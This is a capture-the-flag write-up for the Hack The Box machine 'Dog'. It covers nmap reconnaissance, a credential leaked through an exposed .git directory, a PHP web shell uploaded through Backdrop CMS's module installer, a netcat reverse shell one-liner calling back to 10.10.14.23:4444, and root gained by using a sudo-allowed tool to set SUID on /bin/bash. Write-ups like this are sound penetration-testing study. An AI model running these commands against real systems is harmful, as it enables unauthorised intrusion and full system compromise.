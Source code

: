 ```yaml
---
title: "Dog - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Dog
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
---
```


## Dog
![](https://kar0nx.github.io/assets/images/writeup/426830ea2ae4f05f7892ad89195f8276.webp)
 
## Reconnaissance

IP: 10.10.11.58
### NMAP

```
nmap -T4 -A -p- 10.10.11.58
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 03:21 EDT
Nmap scan report for 10.10.11.58
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   31.36 ms 10.10.14.1
2   31.70 ms 10.10.11.58

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
```


## Website
### Site

http://10.10.11.58/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311082435.png)

http://10.10.11.58/.git/logs/refs/heads/master

crack and we have tiffany:BackDropJ2024DS2024

https://www.exploit-db.com/exploits/52021

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311083020.png)

http://10.10.11.58/?q=admin/installer/manual

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311103254.png)

```
tar -czvf shell.tar.gz shell
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311111737.png)

```
http://10.10.11.58//modules/shell/shell.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311111836.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 4444 >/tmp/f
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311112404.png)

TTY shell

```
/bin/sh -i
```

```
su johncusack
	BackDropJ2024DS2024
```
## Privilege Escalation

```
sudo -l
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311115343.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('chmod u+s /bin/bash');" 
bash -p
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311115256.png)


